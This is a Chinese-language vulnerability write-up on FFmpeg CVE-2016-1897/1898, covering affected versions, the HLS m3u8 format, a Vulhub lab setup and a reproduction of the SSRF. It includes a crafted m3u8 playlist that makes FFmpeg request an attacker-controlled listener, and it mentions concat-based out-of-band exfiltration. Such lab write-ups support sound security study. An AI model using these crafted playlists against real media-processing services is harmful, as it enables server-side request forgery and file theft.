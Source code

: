 # FFmpeg 任意文件读取漏洞/SSRF漏洞 CVE-2016-1897/CVE-2016-1898

## 漏洞描述

FFmpeg 是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

在 FFMpeg2.X 由于在解析 HTTP Live Streaming 流媒体 m3u8 文件处理不当，可导致 SSRF 漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用 FFMpeg 进行处理时会触发该漏洞。

这个漏洞有两个 CVE 编号，分别是 CVE-2016-1897 和 CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897 只能读取文件的第一行。

- [http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html](http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8 - FFMpeg漏洞分析.html)
- http://habrahabr.ru/company/mailru/blog/274855/

目前该漏洞已在FFMpeg **2.8.5**中修复。

## 漏洞影响

```
FFmpeg 2.8.x < 2.8.5
FFmpeg 2.7.x < 2.7.5
FFmpeg 2.6.x < 2.6.7
FFmpeg 2.5.x < 2.5.10
```

## HLS协议分析

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

- \#EXTM3U 标签是m3u8的文件头，开头必须要这一行
- \#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
- \#EXT-X-VERSION:2 该标签可有可无
- \#EXTINF:6, 表示该一段TS流文件的长度
- \#EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

## 环境搭建

Vulhub搭建环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8080/`上传文件。

## 漏洞复现

### SSRF

访问`http://your-ip:8080/`上传文件，文件名为`6215ca35009ea.mp4`。

直接用FFMpeg解析一个多媒体文件，构造test.m3u8文件，文件内容：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.174.128:9999/1.html
#EXT-X-ENDLIST
```

（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

将test.m3u8文件拷贝到docker环境`/var/www/html`目录，与上传文件在同一目录下。

```
$ vim test.m3u8
$ docker cp test.m3u8 23f6:/var/www/html/
```

进入docker执行`ffmpeg -i test.m3u8 6215ca35009ea.mp4`（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

```
$ docker exec -it 23f6 /bin/bash
$ cd /var/www/html
$ ffmpeg -i test.m3u8 6215ca35009ea.mp4
```

![image-20220223145333273](images/202202231453426.png)

执行命令时直接发起了http请求，这就造成一个SSRF。监听9999端口，成功收到请求：

![image-20220223145355756](images/202202231453832.png)

既然可以请求外部数据，因此可以尝试 SSRF 带外，ffmpeg 内部有一个 concat 函数，因此我们可以将内部数据通过 concat 拼接 OOB。

